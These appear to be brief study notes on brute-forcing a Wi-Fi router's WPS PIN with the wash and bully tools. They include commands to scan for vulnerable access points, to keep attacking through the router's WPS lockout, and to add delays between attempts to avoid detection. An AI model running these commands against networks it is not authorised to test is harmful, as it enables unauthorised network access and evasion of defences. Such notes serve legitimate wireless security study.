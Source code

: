 - Reaver (wash - tool to find vulnerable APs)
- Bully
## Wash
`wash -i <interface>` - monitor interface up and running, launch this.
wash will start hopping though the wireless channels and will list discovered APs that support WPS as shown below:
![[Снимок экрана 2023-09-26 в 23.51.01.png]]
WPS Locked specifies if a corresponding AP disabled WPS due to internal anti-bruteforce protection.
Once you are sure your target AP is vulnerable launch bully:
`bully -b <BSSID> <inteface>`
![[Снимок экрана 2023-09-26 в 23.52.47.png]]
## Protection against attack on WPS
The protection is called WPS lockdown and it is simply a self-defense procedure that temporary disables WPS registration if a repeated number of attempts to register is detected.
bully will show lockout:
`WPS lockout reported, sleeping for 43 seconds...`
Force bully to continue attack besides enabled protection:
`bully -b <BSSID> -L <interface>`
To avoid detection add some delay after every PIN attempt
Syntax to enable delay for the bully command goes as follows:
`bully -b <BSSID> -1 <seconds> -2 <seconds> <interface>`
-1 - delay in a first phase
-2 - delay in a second phase
